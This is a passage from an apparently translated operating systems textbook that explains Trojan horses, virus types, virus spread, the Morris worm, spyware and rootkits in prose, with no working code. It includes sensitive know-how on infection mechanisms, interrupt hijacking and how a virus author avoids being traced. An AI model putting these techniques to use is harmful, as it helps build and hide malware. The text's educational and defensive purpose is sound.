大多数常用的程序都在/bin或/usr/bin中，因此在/usr/bin/X11/ls中放一个木马对一般的程序而言不会起作用。因为真的版本会先被找到。但是假设骇客在/usr/bin/X11中插入了la，如果用户误键入la而不是ls（列目录命令），那么特洛伊木马程序就会运行并执行其功能，随后显示la并不存在的正确信息以迷惑用户。通过在复杂的目录系统中插入特洛伊木马程序并用人们易拼错的单词作为名字，用户迟早会有机会误操作并激活特洛伊木马。有些人可能会是超级用户（超级用户也会误操作），于是特洛伊木马会有机会把/bin/ls替换成含有特洛伊木马的程序，这样就能在任何时候被激活。
Mal，一个恶意的但合法的用户，也可能为超级用户放置陷阱。他用含有特洛伊木马程序的ls命令更换了原有的版本，然后假装做一些秘密的操作以引起超级用户的注意，如同时打开100个计算约束进程。当超级用户键入下列命令来查看Mal的目录时机会就来了：
cd/home/mal
ls-l
既然某些shell程序在通过$PATH工作之前会首先确定当前所在的目录，那么超级用户可能会刚刚激活Mal放置的特洛伊木马。特洛伊木马可以把/usr/mal/bin/sh的SETUID设为root。接着它执行两个操作：用chown把/usr/mal/bin/sh的owner改为root，,然后用chmod设置SETUID位。现在Mal仅仅通过运行shell就可以成为超级用户了。
如果Mal发现自己缺钱，他可能会使用下面的特洛伊木马来找钱花。第一个方法是，特洛伊木马程序安装诸如Quicken之类的软件检查受害人是否有银行联机程序，如果有就直接把受害人账户里的钱转到一个用于存钱的虚拟账户（特别是国外账户）里。
第二个方法是，特洛伊木马首先关闭modem的声音，然后拨打900号码（支付号码）到偏远国家，如摩尔多瓦（前苏联的一部分）。如果特洛伊木马运行时用户在线，那么摩尔多瓦的900号码就成为该用户的Internet接入提供者（非常昂贵），这样用户就不会发觉并在网上待上好几个小时。上述两种方法都不仅仅是假设：它们都曾发生并被Denning（1999）报道过。关于后一种方法，曾经有800 000分钟连接到摩尔多瓦，直到美国联邦交易局断开连接并起诉位于长岛的三个人。他们最后同意归还38 000个受害者的274万美元。
打开报纸，总是能够看到关于病毒或蠕虫攻击计算机的新闻。它们显然已经成为现今影响个人和公司安全的主要问题。本节我们将介绍病毒，接下来将介绍蠕虫。
笔者在撰写本节时曾犹豫要不要给出太多的细节，担心它们会让一些人产生邪念。然而现在有很多书籍提供了更为详细的内容，有些甚至给出代码（Ludwig,1998）。而且互联网上也有很多病毒方面的信息，笔者写出的这些并不足以构成什么威胁。另外，人们在不知道病毒工作原理的情况下很难去防御它们，而且关于病毒的传播有许多错误的观念需要纠正。
那么，什么是病毒呢？长话短说，病毒（virus）是一种特殊的程序，它可以通过把自己植入到其他程序中来进行“繁殖”，就像生物界中真正的病毒那样。除了繁殖自身以外，病毒还可以做许多其他的事情。蠕虫很像病毒，但其不同点是通过自己复制自己来繁殖。不过这不是我们关注的重点，因此下面我们将用“病毒”来统称上面两种恶意程序。有关蠕虫的内容会在9.7.3节中讲解。
1.病毒工作原理
让我们看一下病毒有那些种类以及它们是如何工作的。病毒的制造者，我们称之为Virgil，可能用汇编语言（或者C语言）写了一段很小但是有效的病毒。在他完成这个病毒之后，他利用一个叫做dropper的工具把病毒插入到自己计算机的程序里，然后让被感染的程序迅速传播。也许贴在公告板上，也许作为免费软件共享在Internet上。这一程序可能是一款激动人心的游戏，一个盗版的商业软件或其他能引人注意的软件。随后人们就开始下载这一病毒程序。
一旦病毒程序被安装到受害者的计算机里，病毒就处于休眠状态直到被感染的程序被执行。发作时，它感染其他程序并执行自己的操作。通常，在某个特定日期之前病毒是不执行任何操作的，直到某一天它认为自己在被关注前已被广泛传播时才发作。被选中的日期可能是发送一段政治信息（如在病毒编写者所在的宗教团体受辱的100周年或500周年纪念日触发）。
在下面的讨论中，我们来看一下感染不同文件的七种病毒。他们是共事者、可执行程序、内存、引导扇区、驱动器、宏以及源代码病毒。毫无疑问，新的病毒类型不久就会出现。
2.共事者病毒
共事者病毒（companion virus）并不真正感染程序，但当程序执行的时候它也执行。下面的例子很容易解释这个概念。在MS-DOS中，当用户输入
prog
MS-DOS首先查找叫做prog.com的程序。如果没有找到就查找叫做prog.exe的程序。在Windows里，当用户点击Start（开始）和Run（运行）后，同样的结果会发生。现在大多数的程序都是.exe文件，.com文件几乎很少了。
假设Virgil知道许多人都在MS-DOS提示符下或点击Windows的Run运行prog.exe。他就能简单地制造一个叫做prog.com的病毒，当人们试图运行prog（除非输入的是全名prog.exe）时就可以让病毒执行。当prog.com完成了工作，病毒就让prog.exe开始运行而用户显然没有这么聪明。
有时候类似的攻击也发生在Windows操作系统的桌面上，桌面上有连接到程序的快捷方式（符号链接）。病毒能够改变链接的目标，并指向病毒本身。当用户双击图标时，病毒就会运行。运行完毕后，病毒又会启动正常的目标程序。
3.可执行程序病毒
更复杂的一类病毒是感染可执行程序的病毒。它们中最简单的一类会覆盖可执行程序，这叫做覆盖病毒（overwriting virus）。它们的感染机制如图9-27所示。
病毒的主程序首先将自己的二进制代码复制到数组里，这是通过打开argv[0]并将其读取以便安全调用来完成的。然后它通过将自己变为根目录来截断由原来的根目录开始的整个文件系统，将根目录作为参数调用search过程。
递归过程search打开一个目录，每次使用readdir命令逐一读取入口地址，直到返回值为NULL，说明所有的入口都被读取过。如果入口是目录，就将当前目录改为该目录，继续递归调用search；如果入口是可执行文件，就调用infect过程来感染文件，这时把要感染的文件名作为参数。以“.”开头的文件被跳过以避免“.”和“..”目录带来的问题。同时符号链接也被跳过，因为系统可以通过chdir系统调用进入目录并通过转到“..”来返回，这种对硬连接成立，对符号链接不成立。更完善的程序同样可以处理符号链接。
真正的感染程序infect（尚未介绍）仅仅打开在其参数中指定的文件并把数组里存放的病毒代码复制到文件里，然后再关闭文件。
病毒可以通过很多种方法不断“改善”。第一，可以在infect里插入产生随机数的测试程序然后悄然返回。如调用超过了128次病毒就会感染，这样就降低了病毒在大范围传播之前就被被检测出来的概率。生物病毒也具有这样的特性：那些能够迅速杀死受害者的病毒不如缓慢发作的病毒传播得快，慢发作给了病毒以更多的机会扩散。另外一个方法是保持较高的感染率（如25%），但是一次大量感染文件会降低磁盘性能，从而易于被发现。
第二，infect可以检查文件是否已被感染。两次感染相同的文件无疑是浪费时间。第三，可以采取方法保持文件的修改时间及文件大小不变，这样可以协助把病毒代码隐藏起来。对大于病毒的程序来说，感染后程序大小将保持不便；但对小于病毒大小的程序来说，感染后程序将变大。多数病毒都比大多数程序小，所以这不是一个严重的问题。
一般的病毒程序并不长（整个程序用C语言编写不超过1页，文本段编译后小于2KB），汇编语言编写的版本将更小。Ludwig（1998）曾经给出了一个感染目录里所有文件的MS-DOS病毒，用汇编语言编写并编译后仅有44个字节。
稍后的章节将研究反病毒程序，这种反病毒程序可以跟踪病毒并除去它们。而且，在图9-27里很有趣的情况是，病毒用来查找可执行文件的方法也可以被反病毒程序用来跟踪被感染的文件并最终清除病毒。感染机制与反感染机制是相辅相成的，所以为了更有效地打击病毒，我们必须详细理解病毒工作的原理。
从Virgil的观点来说，病毒的致命问题在于它太容易被发现了。毕竟当被感染的程序运行时，病毒就会感染更多的文件，但这时该程序就并不能正常运行，那么用户就会立即发现。所以，有相当多的病毒把自己附在正常程序里，在病毒发作时可以让原来的程序正常工作。这类病毒叫做寄生病毒（parasitic virus）。
寄生病毒可以附在可执行文件的前端、后端或者中间。如果附在前端，病毒首先要把程序复制到RAM中，把自己附加到程序前端，然后再从RAM里复制回来，整个过程如图9-28b所示。遗憾的是，这时的程序不会在新的虚拟地址里运行，所以病毒要么在程序被移动后重新为该程序分配地址，要么在完成自己的操作后缩回到虚拟地址0。
为了避免从前端装入病毒代码带来的复杂操作，大多数病毒是后端装入的，把它们自己附在可执行程序末端而不是前端，并且把文件头的起始地址指向病毒，如图9-28c所示。现在病毒要根据被感染程序的不同在不同的虚拟地址上运行，这意味着Virgil必须使用相对地址，而不是绝对地址来保证病毒是位置独立的。对资深的程序员来说，这样做并不难，并且一些编译器根据需要也可以完成这件事。
复杂的可执行程序格式，如Windows里的.exe文件和UNIX系统中几乎所有的二进制格式文件都拥有多个文本和数据段，可以用装载程序在内存中迅速把这些段组装和分配。在有些系统中（如Windows），所有的段都包含多个512字节单元。如果某个段不满，链接程序会用0填充。知道这一点的病毒会试图隐藏在这些空洞里。如果正好填满多余的空间，如图9-28d所示，整个文件大小将和未感染的文件一样保持不变，不过却有了一个附加物，所以隐含的病毒是幸运的病毒。这类病毒叫做空腔病毒（cavity virus）。当然如果装载程序不把多余部分装入内存，病毒也会另觅途径。
4.内存驻留病毒
到目前为止，我们假设当被感染的程序运行时，病毒也同时运行，然后将控制权交给真正的程序，最后退出。内存驻留病毒（memory-resident virus）与此相反，它们总是驻留在内存中（RAM），要么藏在内存上端，要么藏在下端的中断变量中。聪明的病毒甚至可以改变操作系统的RAM分布位图，让系统以为病毒所在的区域已经占用，从而避免了被其他程序覆盖。
典型的内存驻留病毒通过把陷阱或中断向量中的内容复制到任意变量中之后，将自身的地址放置其中，俘获陷阱或中断向量，从而将该陷阱或中断指向病毒。最好的选择是系统调用陷阱，这样病毒就可以在每一次系统调用时运行（在核心态下）。病毒运行完之后，通过跳转到所保存的陷阱地址重新激活真正的系统调用。
为什么病毒在每次系统调用时都要运行呢？这是因为病毒想感染程序。病毒可以等待直到发现一个exec系统调用，从而判断这是一个可执行二进制（而且也许是一个有价值的）代码文件，于是决定感染它。这一过程并不需要大量的磁盘活动，如图9-27所示，所以难以被发现。捕捉所有的系统调用也给了病毒潜在的能力，可以监视所有的数据并造成种种危害。
5.引导扇区病毒
正如我们在第5章所讨论的，当大多数计算机开机时，BIOS读引导磁盘的主引导记录放入RAM中并运行。引导程序判断出哪一个是活动分区，从该分区读取第一个扇区，即引导扇区，并运行。随后，系统要么装入操作系统要么通过装载程序导入操作系统。但是，多年以前Virgil的朋友发现可以制作一种病毒覆盖主引导记录或引导扇区，并能造成灾难性的后果。这种叫做引导扇区病毒（boot sector virus），它们现在已十分普遍了。
通常引导扇区病毒[包括MBR（主引导记录）病毒]，首先把真正的引导记录扇区复制到磁盘的安全区域，这样就能在完成操作后正常引导操作系统。Microsoft的磁盘格式化工具fdisk往往跳过第一个磁道，所以这是在Windows机器中隐藏引导记录的好地方。另一个办法是使用磁盘内任意空闲的扇区，然后更新坏扇区列表，把隐藏引导记录的扇区标记为坏扇区。实际上，由于病毒相当庞大，所以它也可以把自身剩余的部分伪装成坏扇区。如果根目录有足够大的固定空间，如在Windows 98中，根目录的末端也是一个隐藏病毒的好地方。真正有攻击性的病毒甚至可以为引导记录扇区和自身重新分配磁盘空间，并相应地更新磁盘分布位图或空闲表。这需要对操作系统的内部数据结构有详细的了解，不过Virgil有一个很好的教授专门讲解和研究操作系统。
当计算机启动时，病毒把自身复制到RAM中，要么隐藏在顶部，要么在未使用的中断向量中。由于此时计算机处于核心态，MMU处于关闭状态，没有操作系统和反病毒程序在运行，所以这对病毒来说是天赐良机。当一切准备就绪时，病毒会启动操作系统，而自己则往往驻留在内存里，所以它能够监视情况变化。
然而，存在一个如何获取今后对系统的控制权的问题。常用的办法要利用一些操作系统管理中断向量的技巧。如Windows系统在一次中断后并不重置所有的中断向量。相反，系统每次装入一个设备驱动程序，每一个都获取所需的中断向量。这一过程要持续一分钟左右。
这种设计给了病毒以可乘之机。它可以捕获所有中断向量，如图9-29a所示。当加载驱动程序时，部分向量被覆盖，但是除非时钟驱动程序首先被载入，否则会有大量的时钟中断用来激活病毒。丢失了打印机中断的情况如图9-29b所示。只要病毒发现有某一个中断向量已被覆盖，它就再次覆盖该向量，因为这样做是安全的（实际上，有些中断向量在启动时被覆盖了好几次，Virgil很明白是怎么回事）。重新夺回打印机控制权的示意图如图9-29c所示。在所有的一切都加载完毕后，病毒恢复所有的中断向量，而仅仅为自己保留了系统调用陷阱向量。至此，内存驻留病毒控制了系统调用。事实上，大多数内存驻留病毒就是这样开始运行的。
6.设备驱动病毒
深入内存有点像洞穴探险——你不得不扭曲身体前进并时刻担心物体砸落在头上。如果操作系统能够友好并光明正大地装入病毒，那么事情就好办多了。其实只要那么一点点努力，就可以达到这一目标。解决办法是感染设备驱动程序，这类病毒叫做设备驱动病毒（device driver virus）。在Windows和有些UNIX系统中，设备驱动程序是位于磁盘里或在启动时被加载的可执行程序。如果有一个驱动程序被寄生病毒感染，病毒就能够在每次启动时被正大光明地载入。而且，当驱动程序运行在核心态下，一旦被加载就会调用病毒，从而给病毒获取系统调用的陷阱向量的机会。这样的情况促使我们限制驱动程序运行在用户态，这样的话即使驱动程序被病毒感染，它们也不能像在内核态的驱动程序一样，造成很大的危害。
7.宏病毒
许多应用程序，如Word和Excel，允许用户把一大串命令写入宏文件，以便日后一次按键就能够执行。宏可附在菜单项里，这样当菜单项被选中时宏就可以运行。在Microsoft Office中，宏可以包含完全用Visual Basic编程语言编写的程序。宏程序是解释执行而不是编译执行的，但解释执行只影响运行速度而不影响其执行的效果。宏可以是针对特定的文档，所以Office就可以为每一个文档建立宏。
现在我们看一看问题所在。Virgil在Word里建立了一个文档并创建了包含OPEN FILE功能的宏。这个宏含有一个宏病毒代码。然后他将文档发送给受害人，受害人很自然地打开文件（假设E-mail程序还没有打开文件），导致OPEN FILE宏开始运行。既然宏可以包含任意程序，它就可以做任何事情，如感染其他的Word文档，删除文件等。对Microsoft来说，Word在打开含有宏的文件时确实能给出警告，但大多数用户并不理解警告的含义并继续执行打开操作。而且，合法文件也会包含宏。还有很多程序甚至不给出警告，这样就更难以发现病毒了。
随着E-mail附件数量的增长，发送嵌有宏病毒的文档成为越来越严重的问题。比起把真正的引导扇区隐藏在坏块列表以及把病毒藏在中断向量里，这样的病毒更容易编写。这意味着更多缺乏专业知识的人都能制造病毒，从而降低了病毒产品的质量，给病毒制造者带来了坏名声。
8.源代码病毒
寄生病毒和引导区病毒对操作系统平台有很高的依赖性；文件病毒的依赖性就小得多（Word运行在Windows和Macintosh上，但不是UNIX）。最具移植性的病毒是源代码病毒（source code virus）。请想象图9-27，若该病毒不是寻找可执行二进制文件，而是寻找C语言程序并加以改变，则仅仅改动一行即可（调用access）。infect过程可以在每个源程序文件头插入下面一行：
#include＜virus.h＞
还可以插入下面一行来激活病毒：
run_virus();
判断在什么地方插入需要对C程序代码进行分析，插入的地方必须能够允许合法的过程调用并不会成为无用代码（如插入在return语句后面）。插入在注释语句里也没什么效果，插入在循环语句里倒可能是个极好的选择。假设能够正确地插入对病毒代码的调用（如正好在main过程结束前，或在return语句结束前），当程序被编译时就会从virus.h处（虽然proj.h可能会引起更少的注意）获得病毒。
当程序运行时，病毒也被调用。病毒可以做任何操作，如查找并感染其他的C语言程序。一旦找到一个C语言程序，病毒就插入上面两行代码，但这样做仅对本地计算机有效，并且virus.h必须安放妥当。要使病毒对远程计算机也奏效，程序中必须包括所有的病毒源代码。这可以通过把源代码作为初始化后字符串来实现，特别是使用一串32位的十六进制整数来防止他人识破企图。字符串也许会很长，但是对于今天的大型代码而言，这是可以轻易实现的。
对初学读者来说，所有这些方法看起来都比较复杂。有人也许会怀疑这样做是否在操作上可行。事实上是可行的。Virgil是极为出色的程序员，而且他手头有许多空闲时间。读者可以看看当地的报纸就知道了。
9.病毒如何传播
病毒的传播需要很多条件。让我们从最古典的方式谈起。Virgil编写了一个病毒，把它放进了自己的程序（或窃取来的程序）里，然后开始分发程序，如放入共享软件站点。最后，有人下载并运行了程序。这时有好几种可能。病毒可能开始感染硬盘里的大多数文件，其中有些文件被用户共享给了自己的朋友。病毒也可以试图感染硬盘的引导扇区。一旦引导扇区被感染，就很容易在核心态下放置内存驻留病毒。
现在，Virgil也可以利用其他更多的方式。可以用病毒程序来查看被感染的计算机是否连接在局域网上，如一台机器很可能属于某个公司或大学的。然后，就可以通过该局域网感染所有服务器上未被保护的文件。这种感染不会扩散到已被保护的文件，但是会让被感染的文件运行起来十分奇怪。于是，运行这类程序的用户会寻求系统管理员的帮助，系统管理员会亲自试验这些奇怪的文件，看看是怎么会事。如果系统管理员此时用超级用户登录，病毒会感染系统代码、设备驱动程序、操作系统和引导扇区。犯类似这样的一个错误，就会危及局域网上所有计算机的安全。
运行在局域网上的计算机通常有能力通过Internet或私人网络登录到远程计算机上，或者甚至有权无须登录就远程执行命令。这种能力为病毒提供了更多传播的机会。所以往往一个微小的错误就会感染整个公司。要避免这种情况，所有的公司应该制定统一的策略防止系统管理员犯错误。
另一种传播病毒的方法是在经常发布程序的USENET新闻组或网站上张贴已被感染病毒的程序。也可以建立一个需要特别的浏览器插件的网页，然后确保插件被病毒感染上。
还有一种攻击方式是把感染了病毒的文档通过E-mail方式或USENET新闻组方式发送给他人，这些文档被作为邮件的附件。人们从未想到会去运行一个陌生人邮给他们的程序，他们也许没有想到，点击打开附件导致在自己的计算机上释放了病毒。更糟的是，病毒可以寻找用户的邮件地址簿，然后把自己转发给地址簿里所有的人，通常这些邮件是以看上去合法的或有趣的标题开头的。例如：
Subject：Change of plans
Subject：Re：that last e-mail
Subject：The dog died last night
Subject：I am seriously ill
Subject：I love you
当邮件到达时，收信人看到发件人是朋友或同事，就不会怀疑有问题。而一旦邮件被打开就太晚了。“I LOVE YOU”病毒在2000年6月就是通过这种方法在世界范围内传播的，并导致了数十亿美元的损失。
与病毒的传播相联系的是病毒技术的传播。在Internet上有多个病毒制造小组积极地交流，相互帮助开发新的技术、工具和病毒。他们中的大多数人可能是对病毒有癖好的人而不是职业罪犯，但带来的后果却是灾难性的。另一类病毒制造者是军人，他们把病毒作为潜在的战争武器来破坏敌人的计算机系统。
与病毒传播相关的另一个话题是逃避检测。监狱的计算设施非常差，所以Virgil宁愿避开他们。如果Virgil将最初的病毒从家里的计算机张贴到网上，就会产生危险。一旦攻击成功，警察就能通过最近病毒出现过的时间信息跟踪查找，因为这些信息最有可能接近病毒来源。
为了减少暴露，Virgil可能会通过一个偏远城市的网吧登录到Internet上。他既可以把病毒带到软盘上自己打开，也可以在没有软磁盘驱动器的情况下利用隔壁女士的计算机读取book.doc文件以便打印。一旦文件到了Virgil的硬盘，他就将文件名改为Virus.exe并运行，从而感染整个局域网，并且让病毒在两周后激活，以防警察列出一周内进出该城市机场的可疑人员名单。
另一个方法是不使用软盘驱动器，而通过远程FTP站点放置病毒。或者带一台笔记本电脑连接在网吧的Ethenet或USB端口上，而网吧里确实有这些服务设备供携带笔记本电脑的游客每天查阅自己的电子邮件。
关于病毒还有很多需要讨论的内容，尤其是他们如何隐藏自己以及杀毒软件如何将之发现。在本章后面讨论恶意软件防护的时候我们会回到这个话题。
互联网计算机发生的第一次大规模安全灾难是在1988年的11月2日，当时Cornell大学毕业生Robert Tappan Morris在Internet网上发布了一种蠕虫程序，结果导致了全世界数以千计的大学、企业和政府实验室计算机的瘫痪。这也导致了一直未能平息的争论。我们稍后将重点描述。具体的技术细节请参阅Spafford的论文（1989版），有关这一事件的警方惊险描述请参见Hafner和Markoff的书（1991版）。
故事发生在1988年的某个时候，当时Morris在Berkeley大学的UNIX系统里发现了两个bug，使他能不经授权接触到Internet网上所有的计算机。Morris完全通过自身努力，写了一个能够自我复制的程序，叫做蠕虫（worm）。蠕虫可以利用UNIX的bug，在数秒种内自我复制，然后迅速传染到所有的机器。Morris为此工作了好几个月，并想方设法调试以逃避跟踪。
现在还不知道1988年11月2日的发作是否是一次实验，还是一次真正的攻击。不管怎么说，病毒确实让大多数Sun和VAX系统在数小时内臣服。Morris的动机还不得而知，也有可能这是他开的一个高科技玩笑，但由于编程上的错误导致局面无法控制。
从技术上来说，蠕虫包含了两部分程序，引导程序和蠕虫本身。引导程序是99行的称为l1.c的程序，它在被攻击的计算机上编译并运行。一旦发作，它就在源计算机与宿主机之间建立连接，上传蠕虫主体并运行。在花费了一番周折隐藏自身后，蠕虫会查看新宿主机的路由表看它是否连接到其他的机器上，通过这种方式蠕虫把引导程序传播到所有相连的机器。
蠕虫在感染新机器时有三种方法。方法1是试图使用rsh命令运行远程shell程序。有些计算机信任其他机器，允许其他机器不经校验就可运行rsh命令。如果方法一可行，远程shell会上传蠕虫主体，并从那里继续感染新的计算机。
方法2是使用一种在所有系统上叫做finger的程序，该程序允许Internet上任何地方的用户通过键入
finger name@site
来显示某人的在特定安装下的个人信息。这些信息通常包括：个人姓名、登录名、工作和家庭地址、电话号码、传真号码以及类似的信息。这有点像电话本。
finger是这样工作的。在每个站点有一个叫做finger守护进程的后台进程，它一直保持运行状态，监视并回答所有来自因特网的查询。蠕虫所做的是调用finger，并用一个精心编写的、由536个特殊字节组成的字符串作为参数。这一长串覆盖了守护进程的缓冲和栈，如图9-24c所示。这里所利用的缺陷是守护进程没有检查出缓冲区和栈的溢出情形。当守护进程从它原先获得请求时所在的过程中返回时，它返回的不是main，而是栈上536字节中包含的过程。该过程试图运行sh。如果成功，蠕虫就掌握了被攻击计算机里运行的shell。
方法3是依靠在电子邮件系统里的sendmail程序，利用它的bug允许蠕虫发送引导程序的备份并运行。
蠕虫一旦出现就准备破解用户密码。Morris没有在这方面做大量的有关研究。他所做的是问自己的父亲，一名美国国家安全局（该局是美国政府的密码破解机构）的安全专家，要一份Morris Sr.和Ken Thompson十年前在Bell实验室合著的经典论文（Morris和Thompson,1979）。每个被破译的密码允许蠕虫登录到任何该密码所有者具有账号的计算机上。
每一次蠕虫访问到新的机器，它就查看是否有其他版本的蠕虫已经存活。如果有，新的版本就退出，但七次中有一次新蠕虫不会退出。即使系统管理员启动了旧蠕虫来愚弄新蠕虫也是如此，这大概是为了给自己做宣传。结果，七次访问里的一次产生了太多的蠕虫，导致了所有被感染机器的停机：它们被蠕虫感染了。如果Morris放弃这一策略，只是让新蠕虫在旧蠕虫存在的情况下退出，蠕虫也许就不那么容易被发现了。
当Morris的一个朋友试图向纽约时报记者John Markoff说明整个事件是个意外，蠕虫是无害的，作者也很遗憾等的时候，Morris被捕了。Morris的朋友不经意地流露出罪犯的登录名是rtm。把rtm转换成用户名十分简单——Markoff所要做的只是运行finger。第二天，故事上了头条新闻，三天后影响力甚至超过了总统选举。
Morris被联邦法院审判并证实有罪。他被判10 000美元罚款，三年察看和400小时的社区服务。他的法律费用可能超过了150 000美元。这一判决导致了大量的争论。许多计算机业界人员认为他是个聪明的研究生，只不过恶作剧超出了控制。蠕虫程序里没有证据表明Morris试图偷窃或毁坏什么。而其他人认为Morris是个严重的罪犯必须蹲监狱。Morris后来在哈佛大学获得了博士学位，现在他是一名麻省理工学院的教授。
这一事件导致的永久结果是建立了计算机应急响应机构（Computer Emergency Response Team，CERT），这是一个发布病毒入侵报告的中心机构，有多名专家分析安全问题并设计补丁程序。CERT有了自己的下载网站，CERT收集有关会受到攻击的系统缺陷方面的信息并告知如何修复。重要的是，它把这类信息周期发布给Internet上的数以千计的系统管理员。但是，某些别有用心的人（可能假装成系统管理员）也可以得到关于系统bug的报告，并在这些bug修复之前花费数小时（或数天）寻找破门的捷径。
从Morris蠕虫出现开始，越来越多种类的蠕虫病毒出现在网络上。这些蠕虫病毒的机制与Morris一样，所不同之处只是利用系统中不同软件的不同漏洞。由于蠕虫能够自我复制，因此扩散趋势比病毒要快。其结果是，越来越多的反蠕虫技术被开发出来，它们大多都试图在蠕虫第一次出现的时候将其发现，而不是在它们进入中心数据库时才实施侦测（Portokalidis和Bos,2007）。
间谍软件（spyware）是一种迅速扩散的恶意软件，粗略地讲，间谍软件是在用户不知情的情况下加载到PC上的，并在后台做一些超出用户意愿的事情。但是要定义它却出乎意料的微妙。比如Windows自动更新程序下载安全组件到安装有Windows的机器上，用户不需要干预。同样地，很多反病毒软件也在后台自动更新。上述的两种情况都不被认为是间谍软件。如果Potter Stewart还健在的话，他也许会说：“我不能定义间谍软件，但只要我看见它，我就知道。”
其他人通过努力，进一步地尝试定义间谍软件。Barwinski等人认为它有四个特征：首先，它隐藏自身，所以用户不能轻易地找到；其次，它收集用户数据（如访问过的网址、口令或信用卡号）；再次，它将收集到的资料传给远程的监控者；最后，在卸载它时，间谍软件会试图进行防御。此外，一些间谍软件改变设置或者进行其他的恶意行为。
Barwinski等人将间谍软件分成了三大类。第一类是为了营销：该类软件只是简单地收集信息并发送给控制者，以更好地将广告投放到特定的计算机。第二类是为了监视：某些公司故意在职员的电脑上安装间谍软件，监视他们在做什么，在浏览什么网站。第三类接近于典型的恶意软件，被感染的电脑成为僵尸网络中的一部分，等待控制者的指令。
他们做了一个实验，通过访问5000个网站看什么样的网站含有间谍软件。他们发现这些网站和成人娱乐、盗版软件、在线旅行有关。
华盛顿大学做了一个覆盖面更广的调查（Moshchuk等人，2006）。在他们的调查中，约18 000 000个URL被感染，并且6%被发现含有间谍软件。所以AOL/NCSA所作的调查就不奇怪了：在接受调查的家用计算机中，80%深受间谍软件的危害，平均每台计算机有93个该类软件。华盛顿大学的调查发现成人、明星和桌面壁纸相关的网站有最高的感染率，但他们没有调查旅行相关的网站。
1.间谍软件如何扩散
显然，接下来的问题是：“一台计算机是如何被间谍软件感染的？”一种可能途径和所有的恶意软件是一样的：通过木马。不少的免费软件是包含有间谍软件的，软件的开发者可能就是通过间谍软件而获利的。P2P文件共享软件（比如Kazaa）就是间谍软件的温床。此外，许多网站显示的广告条幅直接指向了含有间谍软件的网页。
另一种主要的感染途径叫做下载驱动（drive-by down load），仅仅访问网页就可能感染间谍软件（实际上是恶意软件）。执行感染的技术有三种。首先，网页可能将浏览器导向一个可执行文件（.exe）。当浏览器访问此文件时，会弹出一个对话框提示用户运行、或保存该文件。因为合法文件的下载也是一样的机制，所以大部分用户直接点击执行，导致浏览器下载并运行该软件。然后电脑就被感染了，间谍软件可以做它想做的任何事。
第二种常见的途径是被感染的工具条。IE和Firefox这两种浏览器都支持第三方工具条。一些间谍软件的作者创建很好看的功能也不错的工具条，然后广泛地宣传。用户一旦安装了这样的工具条也就被感染了，比如，流行的Alexa工具条就含有间谍软件。从本质上讲，这种感染机制很像木马，只是包装不同。
第三种感染的途径更狡猾。很多网页都使用一种微软的技术，叫做ActiveX控件。这些控件是在浏览器中运行并扩展其功能的二进制代码。例如，显示某种特定的图片、音频或视频网页。从原则上讲，这些技术非常合法。实际上它非常的危险，并可能是间谍软件感染的主要途径。这项技术主要针对IE，很少针对Firefox或其他类型的浏览器。
当访问一个含有ActiveX控件的网页时，发生什么情况取决于IE的安全性设置。如果安全性设置太低，间谍软件就自动下载并执行了。安全性设置低的原因是如果设置太高，许多的网页就无法正常显示（或根本无法显示），或者IE会一直进行提示，而用户并不清楚这些提示的作用。
现在我们假设用户有很高的安全性设置。当访问一个被感染的网页时，IE检测到有ActiveX控件，然后弹出一个对话框，包含有网页内容提示，比如：
你希望安装并运行一个能加速网页访问的程序吗？
大多数人认为很不错，然后点“是”。好吧，这是过去的事情。聪明的用户可能会检查对话框其他的内容，还有其他两项。一个是指向从来没有听说过的，也没有包含任何有用信息的认证中心的链接，这其实只表明该认证中心只担保这家网站的存在，并有足够的钱支付认证的费用。ActiveX控件实际上可以做任何事情，所以它非常强大，并且可能让用户很头疼。由于虚假的提示信息，即使聪明的用户也常常选择“是”。
如果他们点“不是”，在网页上的脚本则利用IE的bug，试图继续下载间谍软件。不过没有可利用的bug，就会一次次试图下载该控件，一次次的弹出同样的对话框。此时，大多数人不知道该怎么办（打开任务管理器，杀掉IE的进程），所以他们最终放弃并选择“是”。
通常情况下，下一步是间谍软件显示20～30页用陌生的语言撰写的许可凭证。一旦用户接受了许可凭证，他就丧失了起诉间谍软件作者的机会，因为他同意了该软件的运行，即使有时候当地的法律并不认可这样的许可凭证（如果许可凭证上说“本凭证坚定地授予凭证发放者杀害凭证接受者的母亲，并继承其遗产的权利”，凭证发放者依然很难说服法庭）。
2.间谍软件的行为
现在让我们看看间谍软件的常见行为：
·更改浏览器主页。
·修改浏览器收藏页。
·在浏览器中增加新的工具条。
·更改用户默认的媒体播放器。
·更改用户默认的搜索引擎。
·在Windows桌面上增加新的图标。
·将网页上的广告条替换成间谍软件期望的样子。
·在标准的Windows对话框中增加广告。
·不停地产生广告。
最前面的三条改变了浏览器的行为，即使重启操作系统也不能恢复以前的设置。这种攻击叫做劫持浏览器（brower hijacking）。接下来的两条修改了Windows注册表的设置，把用户引向了另外的媒体播放器（播放间谍软件所期望的广告）和搜索引擎（返回间谍软件所期望的网页）。在桌面上添加图标显然是希望用户运行新安装的程序。替换网页广告条（468×60.gif图像）就像所有被访问过网页一样，为间谍软件指定的网页打广告。最后一项是最麻烦的：一个可关闭的广告立刻产生另一个弹出广告，以致无法结束。此外，间谍软件常常关闭防火墙、卸载其他的间谍软件，并可能导致其他的恶意行为。
许多间谍软件有卸载程序，当这些卸载程序几乎不能用，所以经验不足的用户没有办法卸载。幸运的是，一个新的反间谍软件产业已经兴起，现有的反病毒厂商跃跃欲试。
间谍软件不应该和广告软件（adware）混淆起来，合法的软件生产商提供了两种软件版本：一个含有广告的免费版本和一个不含广告的付费版本。软件生产商的这种办法非常聪明，用户为了不受广告的烦扰，而不得不升级到付费版本。
rootkit是一个程序或一些程序和文件的集合，它试图隐藏其自身的存在，即使被感染主机的拥有者已经决定对其进行定位和删除。在通常情况下，rootkit包含一些同样具有隐藏性的恶意软件。rootkit可以用我们目前讨论过的任一方法进行安装，包括病毒、蠕虫和间谍软件，也可以通过其他方法进行安装。我们将稍后讨论其中的一种。
1.rootkit的类型
我们讨论目前可能的五种rootkit。根据“rootkit在哪里隐藏自己”，我们自底向上将rootkit分为如下几类：
1)固件rootkit。至少从理论上讲，一个rootkit可以通过更新BIOS来隐藏自己在BIOS中。只要主机被引导启动或者一个BIOS函数被调用，这种rootkit就可以获得控制。如果rootkit在每次使用后对自己加密而在每次使用前对自己解密，它就很难被发现。这种rootkit在现实环境下还没有发现。
